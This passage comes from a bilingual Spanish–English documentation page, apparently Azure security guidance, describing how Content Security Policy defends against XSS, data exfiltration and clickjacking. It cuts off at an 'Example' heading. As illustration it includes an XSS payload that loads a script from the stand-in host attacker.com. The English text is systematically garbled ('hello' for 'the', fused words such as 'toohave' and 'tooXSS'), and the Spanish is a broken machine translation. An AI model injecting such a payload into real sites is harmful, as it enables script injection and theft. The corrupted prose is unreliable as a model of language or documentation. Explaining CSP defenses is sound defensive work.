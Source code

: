 | <span data-ttu-id="8e46a-153">**Pasos**</span><span class="sxs-lookup"><span data-stu-id="8e46a-153">**Steps**</span></span> | <p><span data-ttu-id="8e46a-154">Directiva de seguridad de contenido (CSP) es un defensa en profundidad mecanismo de seguridad, un W3C estándar, que habilita el control de web application propietarios toohave en el contenido de hello incrustado en su sitio.</span><span class="sxs-lookup"><span data-stu-id="8e46a-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners toohave control on hello content embedded in their site.</span></span> <span data-ttu-id="8e46a-155">Se agrega como un encabezado de respuesta HTTP en el servidor web de Hola y se aplica en el lado del cliente de hello exploradores CSP.</span><span class="sxs-lookup"><span data-stu-id="8e46a-155">CSP is added as an HTTP response header on hello web server and is enforced on hello client side by browsers.</span></span> <span data-ttu-id="8e46a-156">Es una directiva basada en una lista blanca: un sitio web puede declarar un conjunto de dominios de confianza desde los que se puede cargar contenido activo, como JavaScript.</span><span class="sxs-lookup"><span data-stu-id="8e46a-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="8e46a-157">CSP proporciona Hola siguiendo las ventajas de seguridad:</span><span class="sxs-lookup"><span data-stu-id="8e46a-157">CSP provides hello following security benefits:</span></span></p><ul><li><span data-ttu-id="8e46a-158">**Protección frente a XSS:** si una página es tooXSS vulnerable, un atacante puede aprovechar en 2 formas:</span><span class="sxs-lookup"><span data-stu-id="8e46a-158">**Protection against XSS:** If a page is vulnerable tooXSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="8e46a-159">Insertando `<script>malicious code</script>`.</span><span class="sxs-lookup"><span data-stu-id="8e46a-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="8e46a-160">Esta vulnerabilidad de seguridad no funcionará debido del tooCSP Base restricción-1</span><span class="sxs-lookup"><span data-stu-id="8e46a-160">This exploit will not work due tooCSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="8e46a-161">Insertando `<script src=”http://attacker.com/maliciousCode.js”/>`.</span><span class="sxs-lookup"><span data-stu-id="8e46a-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="8e46a-162">Esta vulnerabilidad de seguridad no funcionará como dominio de hello controlada por el atacante no estará en la lista blanca de direcciones del CSP de dominios</span><span class="sxs-lookup"><span data-stu-id="8e46a-162">This exploit will not work since hello attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="8e46a-163">**Control sobre datos decir:** si cualquier contenido malintencionado en una página Web intenta tooconnect sitio Web externo de tooan y robar datos, la conexión de Hola se anulará por CSP.</span><span class="sxs-lookup"><span data-stu-id="8e46a-163">**Control over data exfiltration:** If any malicious content on a webpage attempts tooconnect tooan external website and steal data, hello connection will be aborted by CSP.</span></span> <span data-ttu-id="8e46a-164">Esto es porque el dominio de destino de hello no estarán en la lista blanca de direcciones del CSP</span><span class="sxs-lookup"><span data-stu-id="8e46a-164">This is because hello target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="8e46a-165">**Defensa contra levantamiento haga clic en:** levantamiento de clic es una técnica de ataque con la que un adversario puede enmarcar un sitio Web original y forzar tooclick de usuarios en los elementos de interfaz de usuario.</span><span class="sxs-lookup"><span data-stu-id="8e46a-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users tooclick on UI elements.</span></span> <span data-ttu-id="8e46a-166">La defensa actual contra el secuestro de clic se consigue mediante la configuración de un encabezado de respuesta X-Frame-Option.</span><span class="sxs-lookup"><span data-stu-id="8e46a-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="8e46a-167">No todos los exploradores respetan este encabezado y va hacia delante CSP será un toodefend de manera estándar con levantamiento haga clic en</span><span class="sxs-lookup"><span data-stu-id="8e46a-167">Not all browsers respect this header and going forward CSP will be a standard way toodefend against click-jacking</span></span></li><li><span data-ttu-id="8e46a-168">**Informes de ataques en tiempo real:** si se produce un ataque de inyección de código en un sitio Web habilitado para CSP, exploradores desencadenará automáticamente un punto de conexión de notificación tooan configurado en el servidor Web de Hola.</span><span class="sxs-lookup"><span data-stu-id="8e46a-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification tooan endpoint configured on hello webserver.</span></span> <span data-ttu-id="8e46a-169">De esta manera, la CSP actúa como sistema de advertencia en tiempo real.</span><span class="sxs-lookup"><span data-stu-id="8e46a-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |

### <a name="example"></a><span data-ttu-id="8e46a-170">Ejemplo</span><span class="sxs-lookup"><span data-stu-id="8e46a-170">Example</span></span>